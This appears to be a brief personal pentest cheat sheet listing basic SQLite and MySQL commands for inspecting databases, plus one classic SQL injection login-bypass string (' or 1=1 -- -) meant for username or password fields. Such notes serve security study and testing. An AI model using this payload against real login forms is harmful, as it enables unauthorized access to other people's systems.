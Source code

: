 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Basic SQL Queries

Listing tables:

~~~sql
.tables
~~~

Showing Contents of Specific Tables:

~~~sql
PRAGMA table_info(TABLENAME);
~~~

Showing information from Specific Tables:

~~~sql
SELECT * from tablename;
~~~

SQL Injection

Simple SQLi query for use in Username or Password field

~~~sql
' or 1=1 -- -
~~~

~~~sql
SHOW DATABASES;

USE database;

SHOW TABLES;

DESCRIBE table;

SELECT field FROM table-content;
~~~
